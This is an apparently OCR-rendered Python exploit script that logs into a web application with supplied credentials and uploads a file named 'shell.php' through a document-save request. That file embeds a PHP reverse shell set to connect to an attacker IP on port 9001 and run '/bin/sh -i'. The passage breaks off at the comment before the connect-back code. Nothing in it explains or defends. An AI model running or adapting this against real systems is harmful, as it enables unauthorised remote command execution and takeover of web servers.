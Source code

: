 ```python
# -*- coding: utf-8 -*-

import requests
import time

auth = "[+] Authentication with credentials provided please be patient"
upload = "[+] Uploading a payload it will take a minute"
netcat = "[+] You should be getting a shell"
s = requests.Session()
payload = {'site': 'default', 'mode' : 'save', 'docid' : 'shell.php', 'content' : """<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = 'X.X.X.X';  # Change this your IP
$port = 9001;       # Change this
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

```